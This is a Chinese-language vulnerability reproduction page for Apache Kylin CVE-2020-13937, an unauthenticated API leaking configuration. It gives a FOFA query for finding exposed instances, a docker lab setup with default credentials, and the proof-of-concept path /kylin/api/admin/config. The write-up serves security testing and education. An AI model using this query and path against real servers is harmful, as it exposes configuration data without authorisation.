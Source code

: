 ```yaml
---
title: Apache Kylin config 未授权配置泄露 CVE-2020-13937
---
```


# Apache Kylin config 未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBUEFDSEUta3lsaW4i">FOFA: app="APACHE-kylin"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="这里使用 docker 来搭建需要的环境" description="" showIcon>
</a-alert>

```bash
docker pull apachekylin/apache-kylin-standalone:3.0.1

docker run -d \
-m 8G \
-p 7070:7070 \
-p 8088:8088 \
-p 50070:50070 \
-p 8032:8032 \
-p 8042:8042 \
-p 16010:16010 \
apachekylin/apache-kylin-standalone:3.0.1
```

打开后使用默认账号密码admin/KYLIN登录，出现初始界面即为成功

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/kylin-1.png)



## 

## 漏洞复现

漏洞验证POC

```
/kylin/api/admin/config
```

![image-20220306140151412](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220306140151412.png)
